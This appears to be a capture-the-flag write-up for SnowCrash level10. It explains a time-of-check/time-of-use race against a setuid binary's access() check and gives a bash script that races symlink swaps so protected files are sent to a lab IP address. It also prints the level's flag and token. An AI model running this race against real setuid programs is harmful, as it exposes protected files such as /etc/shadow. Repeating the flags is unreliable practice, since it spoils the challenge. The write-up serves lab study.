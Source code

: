 This one was quite difficult (actually the hardest one), we get again a level10 and a Token files.
We check the level10 with ghidra to understand how it's work.
After long moment of discussion we saw that "access()" has some security vulnerabilities as said in the man:
```
Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and  opening  the file to manipulate it. For this reason, the use of this system call should be avoided.
```

We fond Time-Of-Check Time-Of-Use attakcs (TOCTOU) :

=> user executes program
program is setuid, immediately gets all privs of root
program checks file1 to ensure that user has access
file1 is a hardlink to file2, which user has access to
user changes file1 to hardlink to file3 (/etc/shadow or something like that)
program reads file1 and does something to it (print, convert, whatever)
user now has access to a file they shouldn't

We made a scipt 

#!/bin/bash
# exploit.sh
TEMPFILE="/var/tmp/exploit"
OLD_LS=`ls -l $1`
NEW_LS=`ls -l $1`

while [ "$OLD_LS" == "$NEW_LS" ]
do
        rm -f $TEMPFILE
        echo "From user: " > $TEMPFILE
        echo "TOCTOU success" | /home/user/level10/level10 $TEMPFILE 192.168.56.103 & unlink $TEMPFILE
        ln -s $1 $TEMPFILE & NEW_LS=`ls -l $1`
done

After a little bit of wait (it has a loop trying again and again to access the file, until the hardlink is made perfectly between the time of check and time of access), we have been able to break the code and find the flag : woupa2yuojeeaaed06riuj63c

/*********************************************************\

flag10@SnowCrash:~$ getflag 
Check flag.Here is your token : feulo4b72j7edeahuete3no7c

\*********************************************************/
